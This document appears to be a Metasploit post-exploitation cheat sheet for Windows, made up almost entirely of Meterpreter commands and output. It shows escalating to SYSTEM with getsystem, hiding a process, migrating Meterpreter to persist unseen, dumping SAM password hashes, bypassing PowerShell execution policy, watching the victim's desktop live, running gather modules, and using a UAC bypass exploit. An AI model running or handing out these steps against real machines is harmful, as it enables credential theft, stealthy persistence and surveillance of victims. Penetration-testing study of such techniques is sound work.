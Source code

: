 ## Performing Post-Exploitation with Metasploit

Scenario:

* Requires: existing meterpreter session
* Meterpreter (non-)staged payload has been deployed initialize a sessions
* Privilege escalation with getsystem
* Hidden Process executions to migrate meterpreter in other processes
* Protect against session termination and observations

```shell
meterpreter > idletime
User has been idle for: 4 mins 12 secs

# getsystem nt/authority requires SeImpersonatePrivilege
meterpreter > shell
C:\user\xxx > whoami /Priv
   SeImpersonatePrivilege        Impersonate a client after authentication Enabled
meterpreter > getsystem
 ...got system via technique

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

# exectute a program to run hidden (-H)
meterpreter > execute -H -f notepad

# migrate meterpreter into another process to hide and persist connection
meterpreter > ps
meterpreter > migrate notepad-PROCESS-ID

# dump SAM (windows)
meterpreter > hashdump

# run powershell with policy bypass to check token integrity level
meterpreer > shell
powershell -ep bypass
Import-Module NtObjectManager
Get-Command -Module NtObjectManager | Select-String "IntegrityLevel"
Get-NtTokenIntegrityLevel
 Medium

# show desktop in realtime
meterpreter > screenshare

```

## Post Exploitation Modules and Extensions

```bash
# read hosts file
use post/windows/gather/enum_hostfile
set SESSION 7
run

# get envrionment variables
use post/multi/gather/env
msf6 post(multi/gather/env) > 
set SESSION 7
msf6 post(multi/gather/env) > run

# bypass uac and check token level high
search window local bypassuac
use exploit/windows/local/bypassuac_sdclt
```
